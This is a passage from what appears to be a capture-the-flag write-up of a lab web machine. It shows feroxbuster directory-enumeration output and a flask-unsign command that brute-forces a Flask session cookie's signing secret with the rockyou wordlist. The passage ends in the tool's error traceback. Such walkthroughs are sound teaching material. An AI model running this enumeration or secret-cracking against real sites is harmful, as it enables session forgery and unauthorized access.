      ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.5.0
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.11.160:5000
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.5.0
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    302      GET        4l       24w      218c http://10.10.11.160:5000/logout => http://10.10.11.160:5000/login
    200      GET       95l      152w     2642c http://10.10.11.160:5000/register
    200      GET       67l      106w     1963c http://10.10.11.160:5000/login
    302      GET        4l       24w      218c http://10.10.11.160:5000/dashboard => http://10.10.11.160:5000/login
    302      GET        4l       24w      218c http://10.10.11.160:5000/notes => http://10.10.11.160:5000/login
    302      GET        4l       24w      218c http://10.10.11.160:5000/VIP => http://10.10.11.160:5000/login
    [####################] - 4m     29999/29999   0s      found:6       errors:0      
    [####################] - 4m     29999/29999   115/s   http://10.10.11.160:5000 



Everything except `/login` and `/register` returns a redirect to
`/login`.

## Shell as svc

### Access to Site as Blue

#### Crack Flask Cookie Secret

Above I looked at the Flask cookie, decoding it with `flask-unsign`.
Flask cookies are signed with a secret, so that they can't be modified
without knowing that secret. It is possible to do a brute force attack
to test for a weak secret, and `flask-unsign` provides that capability
using `--unsign` with `-w` giving a wordlist.

Running it with `rockyou.txt` returns an error:



    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt 
    [*] Session decodes to: {'logged_in': True, 'username': '0xdf'}
    [*] Starting brute-forcer with 8 threads..
    [!] Unhandled exception in cracker thread. Please report this issue on the official bug tracker: "https://github.com/Paradoxis/Flask-Unsign/issues" and don't forget to include the following traceback:
